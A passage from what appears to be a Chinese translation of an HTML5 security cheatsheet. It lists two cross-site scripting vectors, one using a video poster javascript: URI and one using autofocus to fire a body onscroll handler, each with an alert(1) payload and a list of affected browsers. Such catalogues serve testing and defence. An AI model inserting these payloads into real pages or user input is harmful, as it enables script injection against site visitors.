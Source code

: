 *   [`www.whatwg.org/specs/web-apps/current-work/multipage/association-of-controls-and-forms.html#autofocusing-a-form-control`](http://www.whatwg.org/specs/web-apps/current-work/multipage/association-of-controls-and-forms.html#autofocusing-a-form-control)

reporter：.mario

### 通过<VIDEO>的 poster 属性执行 Javascript#10test

Opera 10.5+的 poster 属性允许使用 javascript: URI.这个 bug 在 opera11 中已修复

```
<video poster=javascript:alert(1)//></video> 
```

确保 VIDEO 的 poster 属性是相对 URI、http URI 和 MIME-typed 正确的 data URI

*   opera 10.5
*   opera 11.01

*   xss

*   poster
*   video
*   opera
*   html5

reporter：.mario

### 通过 autofocus 触发<Body>的 onscroll 执行 Javascript.#12test

这个向量是使用 autofocus 移开焦点的方式来移动滚动条,这样就触发了<BODY>的 onscroll 事件

```
<body onscroll=alert(1)><br><br><br><br><br><br>...<br><br><br><br><input autofocus> 
```

*   firefox 4.0
*   firefox latest

*   opera 9.0

*   opera latest

*   safari 4.0

*   safari latest

*   chrome 4.0

*   chrome latest

*   xss

*   autofocus
*   scroll
*   chrome
*   opera

*   [`www.w3.org/Bugs/Public/show_bug.cgi?id=9602`](http://www.w3.org/Bugs/Public/show_bug.cgi?id=9602)

